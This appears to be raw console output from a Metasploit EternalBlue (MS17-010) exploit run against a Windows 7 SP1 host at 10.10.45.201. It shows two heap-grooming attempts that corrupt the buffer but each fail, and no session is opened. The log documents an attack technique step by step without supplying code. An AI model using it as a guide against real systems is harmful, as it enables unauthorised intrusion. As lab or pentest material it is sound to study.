 ```
[+] 10.10.45.201:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.45.201:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.45.201:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.45.201:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.45.201:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.45.201:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.45.201:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.45.201:445 - Sending all but last fragment of exploit packet
[*] 10.10.45.201:445 - Starting non-paged pool grooming
[+] 10.10.45.201:445 - Sending SMBv2 buffers
[+] 10.10.45.201:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.45.201:445 - Sending final SMBv2 buffers.
[*] 10.10.45.201:445 - Sending last fragment of exploit packet!
[*] 10.10.45.201:445 - Receiving response from exploit packet
[+] 10.10.45.201:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.45.201:445 - Sending egg to corrupted connection.
[*] 10.10.45.201:445 - Triggering free of corrupted buffer.
[-] 10.10.45.201:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.45.201:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.45.201:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.45.201:445 - Connecting to target for exploitation.
[+] 10.10.45.201:445 - Connection established for exploitation.
[+] 10.10.45.201:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.45.201:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.45.201:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.45.201:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.45.201:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.45.201:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.45.201:445 - Trying exploit with 22 Groom Allocations.
[*] 10.10.45.201:445 - Sending all but last fragment of exploit packet
[*] 10.10.45.201:445 - Starting non-paged pool grooming
[+] 10.10.45.201:445 - Sending SMBv2 buffers
[+] 10.10.45.201:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.45.201:445 - Sending final SMBv2 buffers.
[*] 10.10.45.201:445 - Sending last fragment of exploit packet!
[*] 10.10.45.201:445 - Receiving response from exploit packet
[+] 10.10.45.201:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.45.201:445 - Sending egg to corrupted connection.
[*] 10.10.45.201:445 - Triggering free of corrupted buffer.
[-] 10.10.45.201:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.45.201:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.45.201:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.

```
